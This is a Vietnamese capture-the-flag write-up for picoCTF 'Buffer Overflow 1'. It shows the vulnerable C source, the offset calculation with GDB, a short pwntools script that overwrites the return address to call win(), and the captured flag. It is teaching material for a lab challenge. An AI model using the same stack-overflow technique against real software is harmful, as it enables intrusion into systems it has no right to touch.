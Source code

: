 # Buffer Overflow 1
Giống như ở bài `Buffer Overflow 0`, challenge này cho chúng ta 2 file. Một file binary `vuln` và một file .c `vuln.c`.

Mở file `vuln.c` thì ta có source code của challenge này như sau:

``` c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

Đặc điểm chung là ta đều phải tạo file `flag.txt` trước khi chạy local =))))

Ta thấy câu lệnh gây nên lỗi `buffer overflow`:

``` c
gets(buf);
```

Và hàm `win()` sẽ in ra flag:

``` c
void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}
```

Vậy giờ ta sẽ làm sao đó để ghi đè địa chỉ trả về của hàm `vuln()` thành địa chỉ hàm `win()` để khi hàm `vuln()` được gọi xong thì hàm `win()` sẽ được gọi để in flag.

Đầu tiên dùng lệnh `checksec` để kiểm tra các cơ chế bảo mật được bật trong file binary, ta thấy đây là một chương trình ELF 32 bit và `PIE` không được bật:

![image](https://github.com/user-attachments/assets/61330016-e78f-45ec-94ba-7b9a76507db6)

Vì vậy nên địa chỉ của hàm `win()` là cố định nên có thể dễ dàng ghi đè địa chỉ của hàm `win()` lên địa chỉ trả về của hàm `vuln()`.

Ta có địa chỉ hàm `win()` là `0x080491f6`. Ta biết rằng mảng `buf` có kích thước là `BUFSIZE` (32 bytes) nên ta cần `offset` lớn hơn 32. Ta biết được rằng lệnh `return` sẽ lấy địa chỉ trả về từ đỉnh `stack` ngay tại thời điểm đó hay cụ thể trong bài này sẽ là giá trị tại địa chỉ được con trỏ `$esp` trỏ tới.

Chỉ cần dùng `GDB` ta thấy rằng khi bắt đầu nhập chuỗi kí tự thì địa chỉ nhận dữ liệu ban đầu là `0xffffd010` và địa chỉ vùng nhớ mà lệnh `return` trỏ tới trên stack là `0xffffd03c`:

![image](https://github.com/user-attachments/assets/d1c7dd25-a5c9-46a9-b067-c2b86933d197)

Lấy `0xffffd03c` trừ đi `0xffffd010`:

``` python
>>> 0xffffd03c-0xffffd010
44
```

Vậy `offset` ta đang tìm là `44`. 
Dựa vào những phân tích trên, ta có file exploit như sau:

``` python 
from pwn import *

payload = 44 * b'a'
payload += b'\xf6\x91\x04\x08'
#p = process("./vuln")
p = remote("saturn.picoctf.net", 60768)
p.sendline(payload)
p.interactive()
```

Và ta có flag:

```
picoCTF{addr3ss3s_ar3_3asy_b15b081e}
```
